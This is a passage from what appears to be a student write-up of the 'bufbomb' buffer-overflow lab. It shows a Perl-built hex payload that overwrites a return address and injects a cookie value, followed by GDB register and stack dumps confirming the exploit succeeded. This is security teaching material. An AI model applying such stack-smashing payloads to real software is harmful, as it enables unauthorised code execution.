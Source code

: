> perl -e 'print "61 "x32, "62 "x20, "77 8b 04 08 ", "63 "x4, "59 "x1, "64 "x3, "65 "x4, "24 d8 9e 1d"' > hex0<br />
> ./hex2raw < hex0 > raw0<br />

Then let's go back into GDB with these commands:

> gdb bufbomb<br />
> (gdb) b shooting_star<br />
> Breakpoint 1 at 0x8048b77<br />
> (gdb) run -u eksperimen < raw0<br />
> Userid: eksperimen<br />
> Cookie: 0x1d9ed824<br />
> Masukkan input:<br />
> Breakpoint 1, 0x08048b77 in shooting_star ()<br />
> (gdb) ni<br />
> (gdb) ni<br />
> (gdb) ni<br />
> (gdb) ni<br />
> (gdb) i r<br />

Info registers | | |
--- | --- | ---
eax      |     0x1d9ed824  |  496949284
ecx      |     0xf7fbb8a4  |  -134498140
edx      |     0x64646459  |  1684300889
ebx      |     0x0  |  0
esp      |     0x5568366c  |  0x5568366c <_reserved+1037932>
ebp      |     0x55685ff0  |  0x55685ff0 <_reserved+1048560>
esi      |     0x3  |  3
edi      |     0x0  |  0
eip      |     0x8048b88   |  0x8048b88 <shooting_star+17>
eflags   |     0x246  |  [ PF ZF IF ]
cs       |     0x23   |   35
ss       |     0x2b   |   43
ds       |     0x2b   |   43
es       |     0x2b   |   43
fs       |     0x0    |   0
gs       |     0x63   |   99

Great! As we can see, after we execute the command for filling the register %edx and %eax, the contents of register %eax is our cookie and the **dl** value of register %edx is 59. Now let's see the stack's condition. Use this command:

> (gdb) x/20x $esp<br />

The contents of stack | | | | |
--- | --- | --- | --- | ---
0x5568366c <_reserved+1037932>:  |  0x61616161  |  0x62626262  |  0x62626262  |  0x62626262
0x5568367c <_reserved+1037948>:  |  0x62626262  |  0x62626262  |  0x08048b77  |  0x63636363
0x5568368c <_reserved+1037964>:  |  0x64646459  |  0x65656565  |  0x1d9ed824  |  0xf7fbaa00
0x5568369c <_reserved+1037980>:  |  0x0000000a  |  0x0000000f  |  0xf7e12700  |  0x55685ff0
0x556836ac <_reserved+1037996>:  |  0xf7ff0500  |  0x55685680  |  0x7ffa3ea0  |  0x00000003

From above stack's illustration, we can see that the current stack's condition is suitable with the given input. For the rest, use this command:

> (gdb) c<br />
> Continuing.<br />
> OK: The shooting_star(0x1d9ed824) over there<br />
> VALID<br />
> Selamat!<br />
> [Inferior 1 (process 4639) exited normally]<br />

Yeah! Great works!

Continue to level 2!
